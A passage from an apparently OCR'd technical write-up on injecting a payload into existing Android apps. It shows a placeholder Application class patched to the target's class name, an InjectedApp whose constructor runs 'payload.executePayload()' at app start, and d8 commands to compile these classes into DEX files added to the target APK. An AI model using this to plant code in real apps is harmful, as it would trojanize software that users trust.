 1. Contain a class with a name:

`aaaaaaaaaaaaaa.payload`

2. The class must contain the method

`public void executePayload()`

A placeholder class `z.z.z`, whose full name will be patched to the full name of the Applciation class of the target application.

```java
package z.z;

import android.app.Application;

public class z extends Application {
}
```

The class must comply with the conditions:

1. The full name of the class must be alphabetically lower than the full names of the classes `InjectedApp` and `payload`

2. The full name of the class must be shorter than any of the full names of the Application classes of any application

According to the developed injection scheme, the `InjectedApp` and `payload` classes were compiled into separate DEXs. For this purpose, Android Studio built the APK with `Android Studio->Generate Signed Bundle/APK->release`. The compiled .class files were created in the folder `app\build\intermediates\javac\release\classes`.

Compile .class files into DEX, using [d8](https://developer.android.com/studio/command-line/d8):

`d8 --release --min-api 16 --no-desugaring InjectedApp.class --output .`

`d8 --release --min-api 16 --no-desugaring payload.class --output .`

The resulting DEX should be added to the target application.

## Identifying the necessary modifications in DEX and patching

After patching the placeholder `z.z.z` to the full name of the Application class of the target application, the DEX structure will change. To detect modifications, two applications with class names of different lengths were created in Android Studio.

The `InjectedApp` class, inherited from `z.z.z`, in the first application:

```java
package aaaaaaaa.aaaaaaaaaaaaaaaaaaaa.aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.aaaaaaaaaaaaaaaaaaaaaa;
import aaaaaaaaaaaa.payload;
import z.z.z;

public class InjectedApp extends z {

    public InjectedApp() {
        super();
        payload p = new payload();
        p.executePayload();
    }
}
```

